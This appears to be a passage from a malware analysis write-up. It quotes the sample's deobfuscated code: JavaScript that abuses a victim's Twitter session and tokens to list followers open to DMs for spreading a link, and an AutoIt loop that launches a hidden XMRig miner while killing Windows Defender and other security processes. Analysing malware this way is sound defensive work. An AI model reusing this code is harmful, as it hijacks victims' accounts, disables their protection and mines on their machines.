 ```javascript
      "authorization": "Bearer AAAAAAAAAAAAAAAAAAAAANRILgAAAAAAnNwIzUejRCOuH5E6I8xnZz4puTs%3D1Zv7ttfk8LF81IUq16cHjhLTvJu4FA33AGWWjCpTnA",
      "x-csrf-token": twitter.csrf
    }
  }).then(r => r.json()).then(data => {
    var entries = data.data.user.result.timeline.timeline.instructions.find(i => i.type == 'TimelineAddEntries')?.entries;
    twitter.followers = [];
    entries.forEach(entry => {
      if(twitter.followers.length >= twitter.config.message_limit) return;
      if(!entry.entryId.startsWith('user')) return;
      var user = entry.content.itemContent.user_results.result;
      if(!user.legacy.can_dm) return;
      if(localStorage[`twitter.dm.${user.rest_id}.${twitter.config.cookie_name}`]) return;
      twitter.followers.push(user);
    })

    console.log(twitter.followers);

    if(twitter.followers.length > 0) {
      twitter.getLink();
    }
  })
}
```

### 9) The miner
In the function `zlmsyuslmwzh` in the fb.clean.au3 file:
```autoit
Func zlmsyuslmwzh() ; Inject fake update service to Chrome and kill Windows Defender
	If "X86" = "X64" Then ; Originally @CPUArch
		$toujmktea = "update-x64.exe"
	Else
		$toujmktea = "update-x86.exe"
	EndIf
	While 1
		If FileExists($virusdir & "\" & $toujmktea) Then
			If NOT ProcessExists($toujmktea) Then
				Run($virusdir & "\" & $toujmktea, $virusdir, @SW_HIDE)
			EndIf
		EndIf
		ProcessClose("software_reporter_tool.exe")
		ProcessClose("MsMpEng.exe")
		ProcessClose("SecurityHealthHost.exe")
		ProcessClose("SecurityHealthService.exe")
		Sleep(3000)
	WEnd
EndFunc
```
<br> As described, the file `update-x64.exe` is a Xmrig miner. When executed with no parameter, it <b>by default</b> load the config ```config.json```. Let's take a look at it:
```json
{
    "api": {
        "id": null,
        "worker-id": null
    },
    "http": {
        "enabled": false,
        "host": "127.0.0.1",
        "port": 0,
        "access-token": null,
        "restricted": true
```